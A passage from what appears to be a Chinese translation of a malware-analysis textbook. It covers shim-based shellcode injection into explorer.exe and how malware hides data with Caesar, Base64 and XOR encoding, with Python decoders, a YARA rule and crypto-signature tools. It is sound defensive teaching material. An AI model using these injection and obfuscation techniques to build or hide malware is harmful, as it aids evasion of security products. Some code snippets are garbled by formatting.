前面命令的输出显示恶意软件以explorer.exe为目标，并应用名为patchdata0的垫片。垫片名称下面的PATCH_BITS是一个原始的二进制数据，包含将被打入explorer.exe内存的shellcode。



为了知道shellcode在做什么，我们需要能够解析PATCH_BITS，它是一个无文档的结构。为了解析这个结构，你可以使用sdb_dump_patch.py脚本（python-sdb的一部分），给出补丁名称，patchdata0，如图所示。

```
$ python sdb_dump_patch.py {4c895e03-f7a5-4780-b65b-549b3fef0540\}.sdb patchdata0
```

运行前面的命令显示在explorer.exe内的kernel32.dll中应用的各种补丁。下面的截图显示了第一个补丁，它在相对虚拟地址（RVA）0x0004f0f2处匹配了两个字节，8B FF（mov edi,edi），并用EB F9（jmp 0x0004f0ed）替换它们。换句话说，它将控制权重定向到RVA 0x0004f0ed。



下面的输出显示了在kernel32.dll的RVA 0x0004f0ed处应用的另一个补丁，恶意软件用调用0x000c61a4替换了一系列NOP指令，从而将程序控制重定向到RVA 0x000c61a4处的功能。这样，恶意软件修补了kernel32.dll中的多个位置，并进行了各种重定向，最终将其引向实际的shellcode。



为了了解恶意软件在kernel32.dll中打了什么补丁，你可以将调试器连接到打了补丁的explorer.exe进程，并在kernel32.dll中找到这些补丁。例如，为了检查RVA 0x0004f0f2的第一个补丁，我们需要确定kernel32.dll被加载的基址。在我的例子中，它被加载在0x76730000，然后加上RVA 0x0004f0f2（换句话说，0x76730000 + 0x0004f0f2 = 0x7677f0f2）。下面的截图显示，这个地址0x7677f0f2与API函数LoadLibraryW（）相关。



检查LoadLibraryW()函数可以看到该函数开始时的跳转指令，该指令最终将把程序控制权转给shellcode。



这种技术很有趣，因为在这种情况下，恶意软件没有直接分配内存或注入代码，而是依靠微软的shim功能来注入shellcode和钩住LoadLibraryW()API。它还通过跳转到kernel32.dll中的不同位置来使检测变得困难。

#### 5. 其他资源

除了本章介绍的代码注入技术外，安全研究人员还发现了其他各种注入代码的手段。以下是一些新的代码注入技术，以及进一步阅读的资源。

* *ATOMBOMBING: BRAND NEW CODE INJECTION FOR WINDOWS:* https:// blog.ensilo.com/atombombing-brand-new-code-injection-for-windows

* PROPagate:* http://www.hexacorn.com/blog/2017/10/26/propagate-a-new- code-injection-trick/

* Process Doppelg*ä*nging, by Tal Liberman and Eugene Kogan:* https://www.blackhat. com/docs/eu-17/materials/eu-17-Liberman-Lost-In-Transaction-Process- Doppelganging.pdf

* Gargoyle:* https://jlospinoso.github.io/security/assembly/c/cpp/ developing/software/2017/03/04/gargoyle-memory-analysis-evasion.html

* GHOSTHOOK:* https://www.cyberark.com/threat-research-blog/ghosthook- bypassing-patchguard-processor-trace-based-hooking/

在本章中，我们主要关注的是用户空间的代码注入技术；在内核空间也可以实现类似的功能（我们将在第11章中研究内核空间的钩子技术）。以下书籍应该能帮助你更深入地了解rootkit技术和Windows内部概念。

* The Rootkit Arsenal: Escape and Evasion in the Dark Corners of the System (2nd Edition), by Bill Blunden
* Practical Reverse Engineering: x86, x64, ARM, Windows Kernel, Reversing Tools, and Obfuscation, by Bruce Dang, Alexandre Gazet, and Elias Bachaalany
* Windows Internals (7th Edition), by Pavel Yosifovich, Alex Ionescu, Mark E. Russinovich, and David A. Solomon

### 总结

在本章中，我们研究了恶意程序用来在合法进程的上下文中注入和执行恶意代码的不同代码注入技术。这些技术允许攻击者执行恶意行为并绕过各种安全产品。除了执行恶意代码，攻击者还可以劫持合法进程调用的API函数（使用钩子），并将控制权重定向到恶意代码，以监视、阻止甚至过滤API的输出，从而改变程序的行为。在下一章中，你将学习攻击者为不被安全监控解决方案发现而使用的各种混淆技术。


## 9. 恶意软件的混淆技术

混淆一词指的是掩盖有意义信息的过程。恶意软件作者经常使用各种混淆技术来隐藏信息，并修改恶意内容，使安全分析人员难以发现和分析。敌方通常使用编码/加密技术来掩盖安全产品的信息。除了使用编码/加密，攻击者还使用打包器等程序来混淆恶意二进制内容，这使得分析和逆向工程更加困难。在本章中，我们将研究如何识别这些混淆技术，以及如何解码/解密和解压恶意二进制文件。我们将首先看一下编码/加密技术，随后我们将看一下解包技术。

攻击者通常出于以下原因使用编码和加密。

* 掩盖命令和控制通信
* 隐藏基于签名的解决方案，如入侵防御系统 隐藏恶意软件所使用的配置文件的内容
* 加密从受害者系统中传出的信息
* 混淆恶意二进制文件中的字符串，以躲避静态分析

在我们深入研究恶意软件如何使用加密算法之前，让我们试着了解一下本章将使用的基本知识和一些术语。明文是指未加密的信息；这可能是命令和控制（C2）流量或恶意软件想要加密的文件内容。加密文本指的是加密信息；这可能是恶意软件从C2服务器收到的加密的可执行文件或加密命令。

恶意软件对明文进行加密，将明文与密钥一起作为输入传递给加密函数，从而产生一个密码文本。由此产生的密码文本通常被恶意软件用来写入文件或通过网络发送。



以同样的方式，恶意软件可以从C2服务器或文件中接收加密的内容，然后通过将加密的内容和密钥传递给解密功能来解密，如下所示。



在分析恶意软件时，你可能想了解某个特定内容是如何被加密或解密的。要做到这一点，你将主要关注识别加密或解密功能以及用于加密或解密内容的密钥。例如，如果你想确定网络内容是如何被加密的，那么你可能会在网络输出操作（如HttpSendRequest()）之前找到加密函数。以同样的方式，如果你想知道C2的加密内容是如何被解密的，那么你很可能在使用诸如InternetReadFile()这样的API从C2检索到内容后找到解密函数。

一旦确定了加密/解密功能，检查这些功能将使你了解内容是如何加密/解密的，使用的密钥，以及用于混淆数据的算法。

### 1. 简单编码

大多数时候，攻击者使用非常简单的编码算法，如Base64编码或xor加密来掩盖数据。攻击者之所以使用简单的算法，是因为它们容易实现，占用较少的系统资源，而且刚好可以掩盖安全产品和安全分析人员分析的内容。

#### 1.1 凯撒密码

凯撒密码，也被称为移位密码，是一种传统的密码，是最简单的编码技术之一。它通过将明文中的每个字母在字母表中下移一些固定的位置来对信息进行编码。例如，如果你将字符 "A "向下移动3个位置，那么你将得到 "D"，而 "B "将是 "E"，以此类推，当移动到 "X "时，将包裹回 "A"。

##### 1.1.1 凯撒密码的工作原理

理解凯撒密码的最好方法是写下从A到Z的字母，并给这些字母分配一个索引，从0到25，如下所示换句话说，'A'对应于索引0，'B'对应于索引1，以此类推。一组从A到Z的所有字母被称为字符集。



现在，让我们假设你想把字母转移三个位置，那么3就成了你的密钥。为了加密字母'A'，将字母A的索引，即0，加到钥匙3上；这样的结果是0+3=3。现在用结果3作为索引，找到相应的字母，也就是'D'，这样'A'就被加密成'D'了。为了加密'B'，你将把'B'的索引（1）加到钥匙3上，结果是4，索引4与'E'有关，所以'B'加密为'E'，以此类推。

这种技术的问题出现在我们到达'X'的时候，它的索引是23。当我们将23+3相加时，我们得到26，但我们知道没有与索引26相关的字符，因为最大索引值是25。我们还知道，索引26应该绕回索引0（与'A'相关）。为了解决这个问题，我们用字符集的长度进行模数运算。在这种情况下，字符集ABCDEFGHIJKLMNOPQRSTUVWXYZ的长度是26。现在，为了加密'X'，我们使用'X'的索引（23）并将其添加到密钥（3）中，然后对字符集的长度（26）进行模数运算（也就是26=0(mod26)），如下所示。这个操作的结果是0，它被用作索引来寻找相应的字符，也就是'A'。

```
(23+3)%26 = 0
```

模数操作允许你循环回到开头。你可以用同样的逻辑来加密字符集中的所有字符（从A到Z），并绕回起点。在凯撒密码中，你可以用以下方法获得被加密（密文）字符的索引。

```
(i + key) % (length of the character set 字符串长度)
where i = index of plaintext character 明文字符串索引
```

以同样的方式，你可以用以下方式获得明文（解密）字符的索引。

```
(j - key) % (length of the character set)
where j = index of ciphertext character
```

下图显示了字符集、加密和以3为密钥的文本 "ZEUS "的解密（移动三个位置）。加密后，文本 "ZEUS "被翻译成 "CHXV"，然后解密又将其翻译成 "ZEUS"。



##### 1.1.2 用Python解密凯撒密码

下面是一个简单的Python脚本的例子，它将字符串 "CHXV "解密为 "ZEUS"。

```
>>> chr_set = "ABCDEFGHIJKLMNOPQRSTUVWXYZ" >>> key = 3
>>> cipher_text = "CHXV"
>>> plain_text = ""
>>> for ch in cipher_text:
j = chr_set.find(ch.upper())
                    plain_index = (j-key) % len(chr_set)
plain_text += chr_set[plain_index] >>> print plain_text
ZEUS
```

> 一些恶意软件样本可能使用凯撒（shift）密码的修改版本；在这种情况下，你可以修改前面提到的脚本以满足你的需求。APT1集团使用的恶意软件WEBC2-GREENCAT从C2服务器获取内容，并使用修改版的凯撒密码对内容进行解密。它使用了一个66个字符的字符集"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ01 23456789._/-"，和一个56的密钥。

#### 1.2 base64编码

使用凯撒密码，攻击者可以对字母进行加密，但对二进制数据的加密还不够好。攻击者使用其他各种编码/加密算法来加密二进制数据。Base64编码允许攻击者将二进制数据编码为ASCII字符串格式。由于这个原因，你会经常看到攻击者在HTTP等纯文本协议中使用Base64编码的数据。


##### 1.2.1 将数据转换为Base64

标准的Base64编码由以下64个字符集组成。你要编码的二进制数据的每3个字节（24位）被翻译成该字符集的四个字符。每个翻译的字符大小为6比特。除了以下字符外，=字符用于填充。

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/

```

为了了解数据如何被翻译成Base64编码，首先，建立Base64索引表，将索引0到63分配给字符集中的字母，如图所示。按照下表，索引0对应于字母A，索引62对应于+，以此类推。



现在，让我们假设我们想对文本 "One "进行Base64编码。要做到这一点，我们需要将字母转换为其相应的比特值，如图所示。

```
O （ascii=79）-> 0x4f -> 01001111
n  (ascii=110)-> 0x6e -> 01101110
e （ascii=101）-> 0x65 -> 01100101
   
```

Base64算法一次处理3个字节（6比特）（24位）；在这种情况下，我们正好有24个比特，它们彼此相邻放置，如图所示。

```
010011110110111001100101
```

然后，这24位被分成四部分，每部分由6位组成，并转换为其等效的十进制值。然后，十进制值被用作索引，以便在Base64索引表中找到相应的值，因此文本一被编码为T25l。

```
010011 -> 19 -> base64 table lookup -> T
110110 -> 54 -> base64 table lookup -> 2
111001 -> 57 -> base64 table lookup -> 5
100101 -> 37 -> base64 table lookup -> l
```

> 解码Base64是一个反向的过程，但理解Base64编码或解码的工作原理并不是必须的，因为有一些python模块和工具可以让你在不了解算法的情况下解码Base64编码的数据。在攻击者使用自定义版本的Base64编码的情况下，了解它将有所帮助。

##### 1.2.2 编码和解码 Base64 

要在Python(2.x)中使用Base64对数据进行编码，请使用以下代码。

```
>>> import base64
>>> plain_text = "One"
>>> encoded = base64.b64encode(plain_text) 
>>> print encoded
T25l
```

要在python中解码base64数据，请使用以下代码。

```
>>> import base64
>>> encoded = "T25l"
>>> decoded = base64.b64decode(encoded) 
>>> print decoded
One
```

GCHQ的CyberChef是一个伟大的web应用程序，允许你在浏览器中进行各种编码/解码、加密/解密、压缩/解压和数据分析操作。你可以通过以下网址访问CyberChef：https://gchq.github.io/CyberChef/，更多的细节可以在https://github.com/gchq/ CyberChef找到。

你也可以使用诸如ConverterNET（http://www.kahusecurity.com/tools/）这样的工具对base64数据进行编码/解码。ConvertNET提供各种功能，允许你将数据转换为/从许多不同的格式。要进行编码，在输入栏中输入要编码的文本，然后点击Text to Base64按钮。要解码，在输入栏中输入要编码的数据，然后点击Base64到文本按钮。下面的截图显示了使用ConverterNET对字符串Hi进行的Base64编码。



编码后的字符串末尾的=字符是填充字符。如果你还记得，该算法将三个字节的输入转换为四个字符，由于Hi只有两个字符，它被填充成三个字符；只要使用了填充，你就会在Base64编码的字符串的末尾看到=字符。这意味着一个有效的Base64编码的字符串的长度总是4的倍数。

##### 1.2.3 解码自定义的Base64

攻击者使用不同的Base64编码变化；其目的是阻止Base64解码工具成功解码数据。在本节中，你将了解这些技术中的一些。

一些恶意软件样本将填充字符（=）从末端移除。这里显示了一个恶意软件样本（Trojan Qidmorks）进行的C2通信。下面的帖子有效载荷看起来是用base64编码的。



当你试图解码POST有效载荷时，你会得到不正确的填充错误，如下所示。



这个错误的原因是，编码字符串的长度（150）不是4的倍数。换句话说，Base64编码的数据中缺少两个字符，这很可能是填充字符（==）。

```
>>> encoded = "Q3VycmVudFZlcnNpb246IDYuMQ0KVXNlciBwcml2aWxlZ2llcyBsZXZlbDogMg0KUGFyZW50IHByb2Nlc3M6IFxEZXZpY2VcSGFyZGRpc2tWb2x1bWUxXFdpbmRvd3NcZXhwbG9yZXIuZXhlDQoNCg"
>>> len(encoded)
150 
```

将两个填充字符（==）附加到编码的字符串中，成功地解码了数据，如图所示。从解码后的数据可以看出，恶意软件向C2服务器发送了操作系统版本（6.1代表Windows 7）、用户的权限级别和父进程。



有时，恶意软件作者使用base64编码的轻微变化。例如，攻击者可以使用一个字符集，其中字符-和_被用来代替+和/（第63和64个字符），如图所示。

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-_
```

一旦你确定了在原始字符集中被替换的字符来对数据进行编码，那么你就可以使用如图所示的代码。这里的意思是将修改后的字符替换回标准字符集中的原始字符，然后再进行解码。

```
>>> import base64
>>> encoded = "cGFzc3dvcmQxMjM0IUA_PUB-"
>>> encoded = encoded.replace("-","+").replace("_","/") >>> decoded = base64.b64decode(encoded)
>>> print decoded
password1234!@?=@~
```

有时，恶意软件作者会改变字符集中的字符顺序。例如，他们可能使用以下字符集而不是标准字符集。

```
0123456789+/ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
```

当攻击者使用非标准的Base64字符集时，你可以用以下代码对数据进行解码。注意，在下面的代码中，除了64个字符外，变量chr_set和non_chr_set还包括填充字符=（第65个字符），这是正确解码所需要的。

```
>>> import base64
>>> chr_set = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=" >>> non_chr_set = "0123456789+/ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz="
>>> encoded = "G6JgP6w=" >>> re_encoded = ""
>>> for en_ch in encoded:
            re_encoded += en_ch.replace(en_ch,
   chr_set[non_chr_set.find(en_ch)])
>>> decoded = base64.b64decode(re_encoded) >>> print decoded
Hello
```

你也可以使用ConverterNET工具，通过选择转换|转换自定义Base64来执行自定义Base64解码。只要在Alphabet字段中输入自定义的Base64字符集，然后在Input字段中输入要解码的数据，并按下Decode按钮，如图所示。



##### 1.2.4 识别Base64

你可以通过寻找一个由Base64字符集（字母数字字符、+和/）组成的长字符串来识别一个使用Base64编码的二进制文件。下面的截图显示了恶意二进制文件中的Base64字符集，表明恶意软件可能使用了Base64编码。



你可以使用字符串交叉引用功能（在第5章中涉及）来定位使用Base64字符集的代码，如以下截图所示。即使没有必要知道代码中哪里使用了Base64字符集来解码Base64数据，但有时，定位它是有用的，例如在恶意软件作者使用Base64编码和其他加密算法的情况下。例如，如果恶意软件用某种加密算法对C2网络流量进行加密，然后使用Base64编码；在这种情况下，定位Base64字符集可能会使你进入Base64函数。然后你可以分析Base64函数或确定调用Base64函数的函数（使用Xrefs功能），这可能会导致你找到加密函数。



> 你可以在x64dbg中使用字符串交叉引用；要做到这一点，确保调试器在模块内任何地方暂停，然后在反汇编窗口（CPU窗口）上点击右键，选择搜索|当前模块|字符串引用。

另一种检测二进制文件中是否存在Base64字符集的方法是使用YARA规则（YARA在第2章 "静态分析 "中讲过），如这里所示。

```
 rule base64
   {
   strings:
       $a="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
       $b="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-_"
   condition:
$a or $b }

```

#### 1.3 XOR 编码

除了Base64编码，恶意软件作者使用的另一种常见编码算法是XOR编码算法。XOR是一种位操作（像AND、OR和NOT），它是在操作数的相应位上进行的。下表描述了XOR操作的属性。在XOR操作中，当两个位都相同时，结果为0；否则，结果为1。


例如，当你XOR 2和4时，即2 ^ 4，结果是6，其工作方式如图所示。

```
						2: 0000 0010
         				4: 0000 0100
   ---------------------------
   Result After XOR : 0000 0110 (6)
```

##### 1.3.1 单字节XOR

在单字节XOR中，明文的每个字节都与加密密钥进行XOR。例如，如果攻击者想用0x40的密钥对明文cat进行加密，那么文本中的每个字符（字节）都会与0x40进行XOR，从而得到密码文本#！4。 下图显示了每个单独字符的加密过程。



XOR的另一个有趣的特性是，当你将密码文本与用于加密的相同密钥进行XOR时，你将得到原文文本。例如，如果你把前面例子中的密码文本#！4与0x40（密钥）进行XOR，你会得到cat。这意味着，如果你知道密钥，那么同一个函数就可以用来加密和解密数据。下面是一个简单的python脚本，用于执行XOR解密（同样的函数也可以用于执行XOR加密）。

```
def xor(data, key):
       translated = ""
       for ch in data:
           translated += chr(ord(ch) ^ key)
       return translated
   if __name__ == "__main__":
      out = xor("#!4", 0x40)
      print out
```

有了对XOR编码算法的了解，让我们看看一个键盘记录器的例子，它将所有输入的按键编码到一个文件。当这个例子被执行时，它记录了击键，并使用CreateFileA()API打开了一个文件（所有击键都将被记录），如图所示。使用CreateFileA()API打开一个文件（其中所有的击键将被记录），如下面的截图所示。然后，它使用WriteFile()API将记录的击键写到文件中。请注意，恶意软件在调用CreateFileA()之后、WriteFile()之前调用了一个函数（重命名为enc_function）；该函数在将内容写入文件之前对其进行编码。enc_function需要两个参数；第一个参数是包含要加密的数据的缓冲区，第二个参数是缓冲区的长度。



检查enc_function可以发现恶意软件使用单字节异或。它从数据缓冲区中读取每个字符并使用0x5A的键进行编码，如下所示。在下面的XOR循环中，edx寄存器指向数据缓冲区，esi寄存器包含缓冲区的长度，ecx寄存器作为数据缓冲区的索引，在循环结束时增加，只要索引值(ecx)小于缓冲区的长度(esi)，循环就会继续:



##### 1.3.2 通过蛮力找到XOR密钥

在单字节XOR中，密钥的长度是一个字节，所以只能有255个可能的密钥（0x0-0xff），但0作为密钥除外，因为将任何值与0进行XOR都会得到相同的结果（即没有加密）。由于只有255个密钥，你可以在加密的数据上尝试所有可能的密钥。如果你知道要在解密的数据中找到什么，这种技术就很有用。例如，在执行一个恶意软件样本时，假设恶意软件得到计算机主机名mymachine，并与一些数据连接，执行单字节xor加密，将其加密为密码文lkwpjeia>i}ieglmja。让我们假设这个密码文本在C2通信中被渗出。现在，为了确定用于加密密文的密钥，你可以分析加密函数，或对其进行暴力破解。下面的python命令实现了暴力技术；由于我们期望解密的字符串包含 "mymachine"，脚本用所有可能的密钥解密加密的字符串（密码文本），并在找到 "mymachine "时显示密钥和解密的内容。在下面的例子中，你可以看到密钥被确定为4，解密后的内容hostname:mymachine，包括主机名mymachine。

```
>>> def xor_brute_force(content, to_match): for key in range(256):
           translated = ""
           for ch in content:
               translated += chr(ord(ch) ^ key)
           if to_match in translated:
print "Key %s(0x%x): %s" % (key, key, translated) >>> xor_brute_force("lkwpjeia>i}ieglmja", "mymachine")
   Key 4(0x4): hostname:mymachine
```

你也可以使用一个工具，如ConverterNET，用暴力手段确定密钥。要做到这一点，请选择工具|密钥搜索/转换。在弹出的窗口中，输入加密的内容和匹配的字符串，然后按下搜索按钮。如果找到了密钥，它将显示在结果栏中，如图所示。



> 蛮力技术（爆破）在确定用于加密PE文件（如EXE或DLL）的XOR密钥时很有用。只要在解密的内容中寻找匹配的字符串MZ或这个程序不能在DOS模式下运行。


##### 1.3.3 忽略XOR编码的NULL

在XOR编码中，当一个空字节（0x00）与一个密钥进行XOR时，你会得到密钥，如图所示。

```
>>> ch = 0x00 
>>> key = 4 
>>> ch ^ key 4
```

这意味着只要对含有大量空字节的缓冲区进行编码，单字节的xor密钥就会清晰可见。在下面的例子中，明文变量被分配了一个包含三个空字节的字符串，用密钥0x4b（字符K）进行加密，加密后的输出以十六进制字符串格式和文本格式打印。请注意明文变量中的三个空字节是如何转化为加密内容中的XOR密钥值0x4b 0x4b 0x4b或（KKK）。如果不忽略空字节，XOR的这一特性使我们很容易发现密钥。

```
>>> plaintext = "hello\x00\x00\x00" >>> key = 0x4b
>>> enc_text = ""
>>> for ch in plaintext:
           x = ord(ch) ^ key
           enc_hex += hex(x) + " "
           enc_text += chr(x)
>>> print enc_hex
0x23 0x2e 0x27 0x27 0x24 0x4b 0x4b 0x4b >>> print enc_text
#.''$KKK
```

下面的截图显示了一个恶意软件样本（HeartBeat RAT）的XOR-加密通信。请注意到处都有0x2字节；这是由于恶意软件用0x2的XOR密钥加密了一个大的缓冲区（包含空字节）。关于这个恶意软件的逆向工程的更多信息，请参考作者的Cysinfo会议演讲：https://cysinfo.com/session-10-part-1-reversing-decrypting-communications-of-heartbeat-rat/。



为了避免空字节问题，恶意软件作者在加密过程中会忽略空字节（0x00）和加密密钥，如这里提到的命令中所示。请注意，在下面的代码中，除了空字节（0x00）和加密密钥字节（0x4b）外，明文字符都是用密钥0x4b加密的；因此，在加密的输出中，空字节被保留下来，而不会泄露加密密钥。正如你所看到的，当攻击者使用这种技术时，仅仅通过查看加密的内容，是不容易确定密钥的。

```
>>> plaintext = "hello\x00\x00\x00" >>> key = 0x4b
>>> enc_text = ""
>>> for ch in plaintext:
           if ch == "\x00" or ch == chr(key):
              enc_text += ch
           else:
              enc_text += chr(ord(ch) ^ key)
>>> enc_text 
"#.''$\x00\x00\x00"
```

##### 1.3.4 多字节XOR编码

攻击者通常使用多字节的XOR，因为它能更好地防御暴力破解技术。例如，如果恶意软件作者使用4字节的XOR密钥来加密数据，然后进行暴力破解，你将需要尝试4,294,967,295（0xFFFFFFFF）可能的密钥，而不是255（0xFF）密钥。下面的截图显示了恶意软件（Taidoor）的XOR解密循环。在这种情况下，Taidoor从其资源部分提取了加密的PE（exe）文件，并使用4字节的XOR密钥0xEAD4AA34将其解密。



下面的屏幕截图显示了资源黑客工具中的加密资源。通过右键点击资源，然后选择将资源保存为*.bin文件，可以将资源提取并保存到文件。



下面的屏幕截图显示了资源黑客工具中的加密资源。通过右键点击资源，然后选择将资源保存为*.bin文件，可以将资源提取并保存到文件。

```
import os
import struct
import sys

def four_byte_xor(content, key ):
   translated = ""
   len_content = len(content)
   index = 0
   while (index < len_content):
       data = content[index:index+4]
       p = struct.unpack("I", data)[0]
       translated += struct.pack("I", p ^ key)
       index += 4
   return translated
   
in_file = open("rsrc.bin", 'rb')
out_file = open("decrypted.bin", 'wb')
xor_key = 0xEAD4AA34
rsrc_content = in_file.read()
decrypted_content = four_byte_xor(rsrc_content,xor_key)
out_file.write(decrypted_content)

```

解密后的内容是一个PE（可执行文件），如图所示。

```
$ xxd decrypted.bin | more
00000000: 4d5a 9000 0300 0000 0400 0000 ffff 0000 MZ.............. 
00000010: b800 0000 0000 0000 4000 0000 0000 0000 ........@....... 
00000020: 0000 0000 0000 0000 0000 0000 0000 0000 ................ 
00000030: 0000 0000 0000 0000 0000 0000 f000 0000 ................ 
00000040: 0e1f ba0e 00b4 09cd 21b8 014c cd21 5468 ........!..L.!Th 
00000050: 6973 2070 726f 6772 616d 2063 616e 6e6f is program canno 
00000060: 7420 6265 2072 756e 2069 6e20 444f 5320 t be run in DOS
```

##### 1.3.5 识别XOR编码

为了识别XOR编码，在IDA中加载二进制文件，通过选择Search|Text来搜索XOR指令。在出现的对话框中，输入xor并选择查找所有出现的情况，如图所示。



当你点击 "确定 "时，你会看到所有XOR的出现。在操作数为相同寄存器的情况下，XOR操作是非常常见的，例如xor eax,eax或xor ebx,ebx。这些指令被编译器用来清零寄存器的值，你可以忽略这些指令。要识别XOR编码，可以寻找（a）一个寄存器（或内存引用）与一个常量值的XOR，如这里所示，或者（b）寻找一个寄存器（或内存引用）与一个不同的寄存器（或内存引用）的XOR。你可以通过双击条目导航到代码。



以下是一些你可以用来确定XOR密钥的工具。除了使用XOR编码外，攻击者还可能使用ROL、ROT或SHIFT操作来编码数据。这里提到的XORSearch和Balbuzard除了支持XOR之外，还支持ROL、ROT和Shift操作。CyberChef几乎支持所有类型的编码、加密和压缩算法。

* CyberChef:* https://gchq.github.io/CyberChef/

* XORSearch* by Didier Stevens: https://blog.didierstevens.com/programs/ xorsearch/

* Balbuzard:* https://bitbucket.org/decalage/balbuzard/wiki/Home *unXOR:* https://github.com/tomchop/unxor/#unxor
* brxor.py:* https://github.com/REMnux/distro/blob/v6/brxor.py *NoMoreXOR.py:* https://github.com/hiddenillusion/NoMoreXOR

### 2. 恶意软件加密

恶意软件作者经常使用简单的编码技术，因为这只足以掩盖数据，但有时，攻击者也使用加密技术。为了识别二进制文件中加密功能的使用，你可以寻找加密指标（签名），如：。

* 引用加密功能的字符串或导入表
* 加密的常量
* 加密程序使用的独特指令序列

#### 2.1 使用Signsrch识别加密货币签名

搜索文件或进程中的加密签名的一个有用工具是Signsrch，它可以从http://aluigi.altervista.org/mytoolz.htm。这个工具依靠密码学签名来检测加密算法。加密签名位于一个文本文件中，即signsrch.sig。在下面的输出中，当signsrch以-e选项运行时，它显示在二进制文件中检测到DES签名的相对虚拟地址。

```
C:\signsrch>signsrch.exe -e kav.exe
   Signsrch 0.2.4
   by Luigi Auriemma
   e-mail: aluigi@autistici.org
   web: aluigi.org
     optimized search function by Andrew http://www.team5150.com/~andrew/
     disassembler engine by Oleh Yuschuk
   - open file "kav.exe"
   - 91712 bytes allocated
   - load signatures
   - open file C:\signsrch\signsrch.sig
   - 3075 signatures in the database
    - start 1 threads
   - start signatures scanning:
     offset num description [bits.endian.size]
     --------------------------------------------
   00410438 1918 DES initial permutation IP [..64]
   00410478 2330 DES_fp [..64]
   004104b8 2331 DES_ei [..48]
   004104e8 2332 DES_p32i [..32]
00410508 1920 DES permuted choice table (key) [..56] 00410540 1921 DES permuted choice key (table) [..48] 00410580 1922 DES S-boxes [..512]
[Removed]

 
```

一旦你知道加密指标所在的地址，你就可以用IDA导航到该地址。例如，如果你想导航到地址00410438（DES的初始排列组合IP），在IDA中加载二进制文件并选择Jump|Jump to address（跳转|跳转到地址）（或G热键）并输入地址，如图所示。



一旦你点击确定，你将到达包含指标的地址（在这种情况下，DES初始permutation IP，标记为DES_ip），如以下截图所示。



现在，要知道这个加密指标在代码中的使用位置和方式，你可以使用交叉引用（Xrefs-to）功能。使用交叉引用（Xrefs to）功能显示，DES_ip在地址为0x4032E0（loc_4032E0）的函数sub_4032B0中被引用。



现在，导航到地址0x4032E0可以直接进入DES加密函数，如下面的截图所示。一旦找到了加密函数，你可以使用交叉引用来进一步检查，以了解在什么情况下加密函数被调用以及用于加密数据的密钥。



与其使用-e选项来定位签名，然后手动浏览使用签名的代码，你可以使用-F选项，它将给你使用加密指标的第一条指令的地址。在下面的输出中，用-F选项运行signsrch直接显示了代码中使用加密指标DES初始排列IP（DES_ip）的地址0x4032E0。

```
C:\signsrch>signsrch.exe -F kav.exe 
[removed]

  offset num description [bits.endian.size]
-------------------------------------------- 
[removed]
004032e0 1918 DES initial permutation IP [..64] 
00403490 2330 DES_fp [..64]
```

-e和-F选项显示相对于PE头中指定的首选基址的地址。例如，如果二进制文件的首选基址是0x00400000，那么由-e和-F选项返回的地址是通过将相对虚拟地址与首选基址0x00400000相加而确定的。当你运行（或调试）二进制文件时，它可以在首选基地址以外的任何地址被加载（例如，0x01350000）。如果你希望在一个正在运行的进程中或在调试二进制文件时（在IDA或x64dbg中）找到加密指标的地址，那么你可以用-P <pid或进程名称>选项运行signsrch。-P选项会自动确定加载可执行文件的基本地址，然后计算出加密签名的虚拟地址，如图所示。

```
C:\signsrch>signsrch.exe -P kav.exe [removed]
- 01350000 0001b000 C:\Users\test\Desktop\kav.exe - pid 3068
- base address 0x01350000
- offset 01350000 size 0001b000
   - 110592 bytes allocated
   - load signatures
   - open file C:\signsrch\signsrch.sig
   - 3075 signatures in the database
   - start 1 threads
   - start signatures scanning:
offset num description [bits.endian.size] -------------------------------------------- 01360438 1918 DES initial permutation IP [..64] 01360478 2330 DES_fp [..64]
     013604b8 2331 DES_ei [..48]
```

> 除了检测加密算法外，Signsrch还可以检测压缩算法、一些反调试代码和Windows加密函数，通常以Crypt开头，如CryptDecrypt()和CryptImportKey()。


#### 2.2 使用FindCrypt2检测加密常量

Findcrypt2 (http://www.hexblog.com/ida_pro/files/findcrypt2.zip)【由于目前已经无法下载因此这里查阅了一下推荐换yara的匹配的一个方式https://github.com/polymorf/findcrypt-yara或者下一个小节的推荐yara检测】 是一个IDA Pro插件，可以在内存中搜索许多不同算法所使用的加密常数。要使用该插件，请下载它，并将findcrypt.plw文件复制到IDA插件文件夹中。现在，当你加载二进制文件时，该插件会自动运行，或者你可以通过选择Edit | Plugins | Find crypt v2（编辑|插件|查找密码v2）来手动调用它。 该插件的结果会显示在输出窗口。



> FindCrypt2插件也可以在调试模式下运行。如果你使用IDA 6.x或更低的版本，FindCrypt2工作得很好；在编写本书时，它似乎不能在IDA 7.x版本中工作（可能是由于IDA 7.x API的变化）。


#### 2.3 利用YARA检测加密签名

另一种识别二进制文件中使用加密技术的方法是用包含加密签名的YARA规则扫描二进制文件。你可以自己编写YARA规则，或者下载其他安全研究人员编写的YARA规则（如
https://github.com/x64dbg/yarasigs/blob/master/crypto_signatures.yara），然后用YARA规则扫描二进制文件。

x64dbg集成了YARA；如果你想在调试时扫描二进制文件中的加密签名，这很有用。你可以将二进制文件加载到x64dbg中（确保执行在二进制文件的某个地方暂停），然后右键点击CPU窗口，选择YARA（或Ctrl + Y）；这将带来这里显示的Yara对话框。点击 "文件"，加载包含YARA规则的文件。你也可以通过点击目录按钮从一个目录中加载含有YARA规则的多个文件。



下面的截图显示了用包含加密签名的YARA规则扫描恶意二进制文件后检测到的加密常量。现在你可以右击任何一个条目，选择在转储中关注，以查看转储窗口中的数据，或者，如果签名与加密程序有关，那么你可以双击任何一个条目来浏览代码。



> 像RC4这样的加密算法不使用加密常数，因为它不容易用加密签名来检测。通常，你会看到攻击者使用RC4来加密数据，因为它很容易实现；在Talos的这篇博文中详细解释了RC4的使用步骤：http://blog.talosintelligence.com/2014/06/an-introduction-to-recognizing-and.html。

#### 2.4 用Python解密

